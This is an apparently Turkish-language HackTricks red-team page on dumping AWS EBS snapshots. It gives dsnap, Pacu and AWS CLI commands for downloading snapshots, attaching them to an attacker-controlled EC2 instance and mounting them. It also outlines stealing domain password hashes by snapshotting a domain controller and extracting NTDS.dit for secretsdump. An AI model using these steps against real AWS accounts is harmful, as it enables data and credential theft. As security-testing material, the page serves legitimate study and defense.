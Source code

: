 # AWS - EBS Snapshot Dump

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'da **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>

### Bir snapshot'ı yerel olarak kontrol etme
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
Bu teknik hakkında daha fazla bilgi için [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/) adresindeki orijinal araştırmayı kontrol edebilirsiniz.

Bu işlemi Pacu kullanarak [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) modülü ile yapabilirsiniz.

### AWS'te bir snapshot kontrol etme

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Kontrolünüz altındaki bir EC2 VM'sinde bağlayın** (yedeklemenin kopyasıyla aynı bölgede olmalıdır):

Adım 1: Tercih ettiğiniz boyutta ve tipte yeni bir birim oluşturmak için EC2 -&gt; Birimler'e gidin.

Bu işlemi gerçekleştirebilmek için şu komutları izleyin:
- EC2 örneğine bağlanacak bir EBS birimi oluşturun.
- EBS birimi ve örnek aynı bölgede olmalıdır.

Adım 2: Oluşturulan birime sağ tıklayarak "birimi bağla" seçeneğini seçin.

Adım 3: Örnek metin kutusundan örneği seçin.

Bu işlemi gerçekleştirebilmek için şu komutu kullanın:
- EBS birimini bağlayın.

Adım 4: EC2 örneğine giriş yapın ve `lsblk` komutunu kullanarak mevcut diskleri listeleyin.

Adım 5: `sudo file -s /dev/xvdf` komutunu kullanarak birimin herhangi bir veri içerip içermediğini kontrol edin.

Yukarıdaki komutun çıktısı "/dev/xvdf: data" şeklinde ise, birimin boş olduğu anlamına gelir.

Adım 6: `sudo mkfs -t ext4 /dev/xvdf` komutunu kullanarak birimi ext4 dosya sistemi olarak biçimlendirin. Alternatif olarak, `sudo mkfs -t xfs /dev/xvdf` komutunu kullanarak xfs formatını da kullanabilirsiniz. Lütfen ext4 veya xfs'ten birini kullanmanız gerektiğini unutmayın.

Adım 7: Yeni ext4 birimini bağlamak için istediğiniz bir dizin oluşturun. Örneğin, "newvolume" adını kullanabilirsiniz.

Bu işlemi gerçekleştirebilmek için `sudo mkdir /newvolume` komutunu kullanın.

Adım 8: `sudo mount /dev/xvdf /newvolume/` komutunu kullanarak birimi "newvolume" dizinine bağlayın.

Adım 9: Dizini "newvolume" dizinine değiştirin ve birim bağlantısını doğrulamak için disk alanını kontrol edin.

Bu işlemi gerçekleştirebilmek için şu komutları kullanın:
- `/newvolume` dizinine değiştirin.
- `df -h .` komutunu kullanarak disk alanını kontrol edin. Bu komutun çıktısı, "newvolume" dizinindeki boş alanı göstermelidir.

Bu işlemi Pacu kullanarak `ebs__explore_snapshots` modülü ile yapabilirsiniz.

### AWS'de bir snapshot kontrol etme (cli kullanarak)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### Shadow Copy

AWS kullanıcısı olan herhangi biri, **`EC2:CreateSnapshot`** iznine sahip olduğunda, tüm etki alanı kullanıcılarının karma değerlerini çalabilir. Bunun için, kontrol ettikleri bir örneğe bağlanarak **Etki Alanı Denetleyicisinin bir anlık görüntüsünü** oluşturabilir ve Impacket'in secretsdump projesiyle kullanmak üzere NTDS.dit ve SYSTEM kayıt defteri hive dosyalarını dışa aktarabilir.

Bu saldırıyı otomatikleştirmek için şu aracı kullanabilirsiniz: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) veya bir önceki tekniklerden birini kullanabilirsiniz.

# Referanslar
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz olan [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek paylaşın**.

</details>
